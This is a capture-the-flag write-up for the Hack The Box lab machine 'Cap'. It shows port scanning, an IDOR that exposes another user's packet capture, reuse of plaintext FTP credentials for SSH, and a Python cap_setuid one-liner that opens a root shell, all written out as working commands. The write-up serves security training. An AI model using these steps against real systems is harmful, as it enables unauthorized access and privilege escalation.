




# Cap

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-tags">
<span class="wu-tag">IDOR</span>
<span class="wu-tag">PCAP</span>
<span class="wu-tag">Linux capabilities</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Cap starts with a dashboard that exposes more than its own traffic. Following the capture identifiers led to a plaintext login, and local capability enumeration made sudo unnecessary.

## Attack path

1. Change the capture identifier to retrieve another user's PCAP.
2. Recover Nathan's FTP password and reuse it for SSH.
3. Use Python's cap_setuid capability to start a root shell.

[HTB machine](https://app.hackthebox.com/machines/351) · [Official retirement evidence](https://labs.hackthebox.com/achievement/machine/2048041/351) (checked November 17, 2026).

## Setup 

```bash
export IP="10.129.139.21"
```

### /etc/hosts
```bash
echo "$IP    cap.htb" | sudo tee -a /etc/hosts
```

---
## Enumeration
### Port Discovery / Scanning

**Quick Port Scan**
```bash
rustscan -a $IP --ulimit 5000 | tee rustscan.txt
```

**Full Nmap Scan**
```bash
nmap -sC -sV -p- $IP -oN nmap_full.txt
```
### Nmap Results
```text
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

---
## Service Enumeration
### FTP

Before discovering anything else, I tried to login anonymously with FTP

Anonymous login failed:
```bash
ftp anonymous@$IP
Password: anon
...
ftp: Login failed
```

### 80

Landing page is a dashboard that shows graphs relating to network data - failed logins, port scans, and security events. The top left-hand corner has a menu with several options. Click the `Security Snapshot` tab

<figure class="wu-evidence" markdown>

<figcaption>The dashboard offers a security snapshot capture.</figcaption>
</figure>

This looks to initiate a short PCAP capture, however, we can see that we've been redirected to the following URL
```text
http://cap.htb/data/1
```

We can attempt to view other user's data (IDOR) by changing the data ID value from `1` to `0`
```text
http://cap.htb/data/0
```

<figure class="wu-evidence" markdown>

<figcaption>An earlier capture is available by changing the data identifier.</figcaption>
</figure>

Download the `.pcap` file and review it's content to reveal a successful FTP login event that reveals a user/password:

`nathan:Buck3tH4TF0RM3!`

<figure class="wu-evidence" markdown>

<figcaption>The packet capture exposes Nathan&#x27;s plaintext FTP login.</figcaption>
</figure>

---
## Foothold (Initial Access)

Utilize the credentials found in the `.pcap` file to SSH onto the host to gain a foothold as user `nathan`. Note that you can also use FTP with the same credentials to find the `user.txt` flag.

```bash
ssh nathan@$IP
Password: Buck3tH4TF0RM3!
```

---
## Privilege Escalation

We find that `nathan` cannot run `sudo` on this machine using `sudo -l`

Get `linpeas` on the machine and note the following entry

<figure class="wu-evidence" markdown>

<figcaption>Python 3.8 has a setuid capability.</figcaption>
</figure>

The **cap_setuid** capability allows the process to change its user ID, and enables us to escalate our privileges to root:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### Recorded privilege verification

The identity output below is transcribed from the original screenshot; flag values and the flag-bearing image are omitted.

```text
root@cap:~# whoami
root
```

## Lessons learned

A capture can contain credentials for a different protocol. After reaching SSH, file capabilities were the decisive local permission; a negative sudo check did not close the escalation path.
